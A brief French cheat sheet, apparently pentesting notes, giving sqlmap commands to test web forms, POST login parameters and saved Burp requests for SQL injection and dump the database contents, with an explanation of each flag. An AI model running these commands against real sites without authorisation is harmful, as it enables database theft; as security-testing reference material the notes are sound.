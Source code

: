 # Dump et form récupéré automatiquement 
```bash
sqlmap -u x.x.x.x --forms --dump 
```

# POST
```bash
sqlmap --method POST -u x.x.x.x --data 'log_email=toto@toto.fr&log_password=PWD&login_button=Login' 
```

# Utiliser une requête sauvegardée de Burp
Faire un "Save Item" de la requête dans Burp 

```bash
sqlmap –r req.txt --dump
```

Explication des arguments
  - -r => Fichier de requête à utiliser (par exemple provenant de Burp)
  - -u => Url ou IP du site à attaquer
  - --data => Body à utiliser
  - --dump => Dump de la base en sortie
  - --forms => Récupérer le "form" de la page attaquée
  - --method => Verb HTTP à utiliser
